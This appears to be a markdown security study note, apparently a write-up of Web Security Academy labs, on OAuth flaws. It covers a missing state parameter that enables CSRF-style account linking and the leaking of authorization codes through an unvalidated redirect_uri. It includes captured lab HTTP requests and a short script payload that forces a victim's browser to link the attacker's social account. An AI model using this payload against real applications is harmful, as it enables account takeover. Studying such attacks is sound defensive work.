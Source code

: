 ## Flawed CSRF protection

The `state` parameter should ideally contain an unguessable value, such as the hash of something tied to the user's session when it first initiates the OAuth flow. This value is then passed back and forth between the client application and the OAuth service as a form of [CSRF token](Session%20Attacks%20and%20Session%20Prediction.md#CSRF%20tokens) for the client application. It it is not included in the authorization request, it can potentially means that attackers can initiate an OAuth flow themselves before tricking a user's browser into completing it, like in [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) attacks.

AOuth request:
```http
GET /auth?client_id=o9a47mrb8phzw2zind5vr&redirect_uri=https://0a7100fe03e306068320e2fc001d0093.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0ad0006b03d7061683b0e006020b0092.oauth-server.net


HTTP/2 302 Found
Location: https://0a7100fe03e306068320e2fc001d0093.web-security-academy.net/oauth-linking?code=FtD94zhZ92lW7Dxb0a0XkLtWkUoQ272nPKUpYY7czGs
...
Redirecting to <a href="https://0a7100fe03e306068320e2fc001d0093.web-security-academy.net/oauth-linking?code=FtD94zhZ92lW7Dxb0a0XkLtWkUoQ272nPKUpYY7czGs">https://0a7100fe03e306068320e2fc001d0093.web-security-academy.net/oauth-linking?code=FtD94zhZ92lW7Dxb0a0XkLtWkUoQ272nPKUpYY7czGs</a>
```

Link request:
```http
GET /oauth-linking?code=FtD94zhZ92lW7Dxb0a0XkLtWkUoQ272nPKUpYY7czGs HTTP/2
Host: 0a7100fe03e306068320e2fc001d0093.web-security-academy.net
Cookie: session=xviiUUJRMIFclflsFPxXEfMLMh8hcJ5G
```

We can create an arbitrary profile-linking request and then send it to the user to link our social-account to the victim's application one:
```html
<script> document.location = 'https://0a7100fe03e306068320e2fc001d0093.web-security-academy.net/oauth-linking?code=rGBIs9Af4Mu_nAKiSaROttSpe8Oc1MKdnsBaD5L0VgY'; </script>
```

In this way, the next time we access the application using our social profile, we will be the victim (since it were linked)

## Leaking authorization codes and access tokens

By stealing a valid code or token, the attacker may be able to access the victim's data. Ultimately, this can completely compromise their account - the attacker could potentially log in as the victim user on any client application that is registered with this OAuth service.

Depending on the grant type, either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack conjuncted with an [Open Redirection](Open%20Redirection.md), tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled `redirect_uri`.
